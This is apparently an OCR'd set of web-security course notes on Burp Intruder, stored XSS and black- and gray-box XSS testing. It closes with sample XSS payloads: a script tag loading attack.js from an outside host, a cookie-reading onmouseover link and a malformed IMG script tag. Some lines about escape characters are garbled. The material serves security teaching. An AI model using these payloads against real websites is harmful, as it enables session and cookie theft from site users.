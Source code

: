 - Burp Intruder is a powerful tool for performing highly
    customizable, automated attacks against websites. It enables
    to configure attacks by sending the same request over and
    over again, inserting different payloads into predefined
    positions each time
- Burp Intruder can:
    - Fuzz for input-based vulnerabilities.
    - Perform brute-force attacks.
    - Enumerate valid identifiers and other inputs.
    - Harvest useful data.



### Stored XSS

- Stored XSS or **Persistent XSS** occurs when a web application
    gathers input from a user which might be malicious, and then
    stores that input in a data store for later use.
- The input that is stored is not sanitized and as such the
    malicious data becomes part of the web site and run in the
    client with privileges of the web application
- As this vulnerability involves at least two requests to the
    application, this is also called **second-order XSS**


### Stored XSS Demo


### Testing and Prevention of XSS Attacks

- Black Box testing
    - Detect input vectors
    - Analyse input vectors
    - Check Impact: tester identifies any special characters that were not
       properly encoded, replaced, or filtered out. The set of vulnerable
       unfiltered special characters will depend on the context of that
       section of HTML.
          - The key HTML entities to identify are: >,<, &, ‘, "
          - Within the context of Javascriptanother set \n, \r\(backs\n (new line), \\uXXXX
             (unicodevalues)lash), \uXXXXetc
- Gray Box Testing: The pen-tester has partial knowledge of the
    application like user input, input validation controls etc


### Testing and Prevention of XSS Attacks

- Basic XSS Test Without Filter Evasion
    - <SCRIPT SRC=http://test.com/attack.js></SCRIPT>
- Malformed A Tags:
    - \<a onmouseover="alert(document.cookie)"\>xxslink\</a\>
- Malformed IMG Tags
    - <IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
